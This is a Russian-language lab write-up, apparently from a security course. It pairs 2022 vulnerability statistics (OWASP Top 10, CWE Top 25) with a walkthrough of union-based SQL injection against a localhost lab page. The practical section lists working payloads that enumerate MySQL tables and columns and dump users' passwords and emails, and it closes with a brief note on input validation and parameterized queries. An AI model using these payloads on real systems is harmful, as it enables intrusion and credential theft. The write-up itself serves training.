





### I. Теоретическая часть.

Источники:

https://rt-solar.ru/analytics/reports/2880/

https://www.ptsecurity.com/ru-ru/research/analytics/

https://securityboulevard.com/2022/07/owasp-top-10-2022-forecast-based-on-statistics/

https://www.synopsys.com/blogs/software-security/

https://www.synopsys.com/software-integrity/engage/software-vulnerability-snapshot/software-vulnerability-report-2022

https://owasp.org/Top10/

https://owasp.org/www-project-top-ten/

https://cwe.mitre.org/top25/archive/2022/2022_cwe_top25.html#cwe_top_25

https://github.com/OWASP/Top10

Доля атак через веб-уязвимости в 2022 составляет 22% (по данным [Positive Technologies](https://www.ptsecurity.com/ru-ru/research/analytics/cybersecurity-threatscape-2022/))

**Наиболее распространенные уязвимости в 2022 году по оценке компании Synopsys по категориям OWASP Top 10** 

| Описание                                       | Категория                                           | Оценка |
| ---------------------------------------------- | --------------------------------------------------- | :----: |
| Information Disclosure: Information Leakage    | A01:2021—Broken Access Control                      |  18%   |
| Server Misconfiguration                        | A05:2021—Security Misconfiguration                  |  18%   |
| Application Privacy Tests                      | A07:2021—Identification and Authentication Failures |   5%   |
| Client-Side Attacks: Content Spoofing          | A03:2021—Injection                                  |   4%   |
| Fingerprinting                                 | A07:2021—Identification and Authentication Failures |   4%   |
| Authentication: Insufficient Authentication    | A07:2021—Identification and Authentication Failures |   4%   |
| Application Misconfiguration                   | A05:2021—Security Misconfiguration                  |   4%   |
| Authorization: Insufficient Session Expiration | A07:2021—Identification and Authentication Failures |   3%   |

**Распределение атак по отраслям учреждений в 2022 году.**

| Категория              | Доля по оценке  [Positive Technologies](https://www.ptsecurity.com/ru-ru/research/analytics/cybersecurity-threatscape-2022) | Доля по оценке [socradar.io](https://socradar.io/socradar-end-of-year-report-phishing-threats-in-2022/) |
| ---------------------- | :----------------------------------------------------------: | :----------------------------------------------------------: |
| Госучреждения          |                             41%                              |                            10,4%                             |
| Медицинские учреждения |                              -                               |                              3%                              |
| Наука и образование    |                             20%                              |                             4,6%                             |
| IT-компании            |                             22%                              |                             9,2%                             |
| Сфера услуг            |                             35%                              |                             6,9%                             |
| Финансовые организации |                             29%                              |                            10,1%                             |
| Торговля               |                             38%                              |                             8,8%                             |
| Транспорт              |                             43%                              |                              -                               |

**Топ-25 самых опасных уязвимостей по итогам 2022 года**

| Ранг   | ID                                                         | Наименование                                                 | Оценка |
| ------ | ---------------------------------------------------------- | ------------------------------------------------------------ | ------ |
| **1**  | [CWE-787](https://cwe.mitre.org/data/definitions/787.html) | Out-of-bounds Write                                          | 64.20  |
| **2**  | [CWE-79](https://cwe.mitre.org/data/definitions/79.html)   | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') | 45.97  |
| **3**  | [CWE-89](https://cwe.mitre.org/data/definitions/89.html)   | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | 22.11  |
| **4**  | [CWE-20](https://cwe.mitre.org/data/definitions/20.html)   | Improper Input Validation                                    | 20.63  |
| **5**  | [CWE-125](https://cwe.mitre.org/data/definitions/125.html) | Out-of-bounds Read                                           | 17.67  |
| **6**  | [CWE-78](https://cwe.mitre.org/data/definitions/78.html)   | Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') | 17.53  |
| **7**  | [CWE-416](https://cwe.mitre.org/data/definitions/416.html) | Use After Free                                               | 15.50  |
| **8**  | [CWE-22](https://cwe.mitre.org/data/definitions/22.html)   | Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') | 14.08  |
| **9**  | [CWE-352](https://cwe.mitre.org/data/definitions/352.html) | Cross-Site Request Forgery (CSRF)                            | 11.53  |
| **10** | [CWE-434](https://cwe.mitre.org/data/definitions/434.html) | Unrestricted Upload of File with Dangerous Type              | 9.56   |
| **11** | [CWE-476](https://cwe.mitre.org/data/definitions/476.html) | NULL Pointer Dereference                                     | 7.15   |
| **12** | [CWE-502](https://cwe.mitre.org/data/definitions/502.html) | Deserialization of Untrusted Data                            | 6.68   |
| **13** | [CWE-190](https://cwe.mitre.org/data/definitions/190.html) | Integer Overflow or Wraparound                               | 6.53   |
| **14** | [CWE-287](https://cwe.mitre.org/data/definitions/287.html) | Improper Authentication                                      | 6.35   |
| **15** | [CWE-798](https://cwe.mitre.org/data/definitions/798.html) | Use of Hard-coded Credentials                                | 5.66   |
| **16** | [CWE-862](https://cwe.mitre.org/data/definitions/862.html) | Missing Authorization                                        | 5.53   |
| **17** | [CWE-77](https://cwe.mitre.org/data/definitions/77.html)   | Improper Neutralization of Special Elements used in a Command ('Command Injection') | 5.42   |
| **18** | [CWE-306](https://cwe.mitre.org/data/definitions/306.html) | Missing Authentication for Critical Function                 | 5.15   |
| **19** | [CWE-119](https://cwe.mitre.org/data/definitions/119.html) | Improper Restriction of Operations within the Bounds of a Memory Buffer | 4.85   |
| **20** | [CWE-276](https://cwe.mitre.org/data/definitions/276.html) | Incorrect Default Permissions                                | 4.84   |
| **21** | [CWE-918](https://cwe.mitre.org/data/definitions/918.html) | Server-Side Request Forgery (SSRF)                           | 4.27   |
| **22** | [CWE-362](https://cwe.mitre.org/data/definitions/362.html) | Concurrent Execution using Shared Resource with Improper Synchronization ('Race Condition') | 3.57   |
| **23** | [CWE-400](https://cwe.mitre.org/data/definitions/400.html) | Uncontrolled Resource Consumption                            | 3.56   |
| **24** | [CWE-611](https://cwe.mitre.org/data/definitions/611.html) | Improper Restriction of XML External Entity Reference        | 3.38   |
| **25** | [CWE-94](https://cwe.mitre.org/data/definitions/94.html)   | Improper Control of Generation of Code ('Code Injection')    | 3.32   |

------

### II. Практическая часть.

Проверяем, что все работает:
`http://localhost:8080/task/?id=1`

Проверяем, возможно ли выполнение инъекции:

`http://localhost:8080/task/?id=1'`

И получаем ошибку:

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`

Из полученной ошибки мы видим, что используется MySQL и в запросе явно указано выражение LIMIT, что ограничивает вывод записей вне зависимости от количества найденных по заданному условию, поэтому мы уберем его в запросах с помощью комментария.

Теперь нам надо выяснить, сколько колонок должно быть в запросе, ведь они могут быть перечислены как явно по именам, так и все через указание *. **Во всех запросах будем использовать явно неверный идентификатор, чтобы всегда получать данные присоединенных запросов.**

`http://localhost:8080/task/?id=-1' union 1--+`

Получаем ошибку:
`The used SELECT statements have a different number of columns`

Методом перебора выясняем, что колонок должно быть 3:

`http://localhost:8080/task/?id=-1+union select "test", 2, 3--+`

Теперь видим вывод, значит наше предположение верно:
`Ваш id:test`
`Ваш логин:2`

Попробуем определить версию MySQL.

`http://localhost:8080/task/?id=-1' union select version(), 1, 2--+`

Теперь займемся исследованием рабочей базы. Узнавать ее имя нет необходимости, так как MySQL предоставляет функцию **database**, которая возвращает имя текущей базы. Нам необходимо выяснить список таблиц, а также колонок в каждой из них:

`http://localhost:8080/task/?id=-1' union select group_concat(table_name),null,null FROM information_schema.tables where table_schema=database()--+`

Теперь получаем список колонок по каждой таблице из служебных таблиц MySQL:

`http://localhost:8080/task/?id=-1' union select group_concat(column_name), null, null column_name from information_schema.columns where table_name like "%emails%" and table_schema=database()--+`

Таким образом нужные нам таблицы содержат колонки:
`emails: id,email_id`
`users: id,username,password`

Теперь мы можем сформировать окончательные запросы для получения сведений о пользователе по его идентификатору:
`http://localhost:8080/task/?id=-1'union select 1, group_concat('[', 'id:', u.id, ' username: ', u.username, ', password: ', u.password, ', email: ', e.email_id, ']'), 1 from users u join emails e on e.id=u.id where u.id=3--+`

или по его логину:

`http://localhost:8080/task/?id=-1'union select 1, group_concat('[', 'id:', u.id, ', username: ', u.username, ', password: ', u.password, ', email: ', e.email_id, ']'), 1 from users u join emails e on e.id=u.id where u.username="Volk"--+`

Так же не составит труда написать запрос, показывающий сведения о пользователе по его электронной почте:

`http://localhost:8080/task/?id=-1'union select 1, group_concat('[', 'id:', u.id, ', username: ', u.username, ', password: ', u.password, ', email: ', e.email_id, ']'), 1 from users u join emails e on e.id=u.id where e.email_id="honey_lover@otus-lab.com"--+`

**Таким образом:**

`пароль пользователя с ником Volk2: Wa spoiuuuuu`

`почта пользователя с ником Vinni-pukh: honey_lover@otus-lab.com`

Противодействие SQL-инъекциям - экранирование и валидация пользовательского ввода, исключения использования не параметризованных запросов.
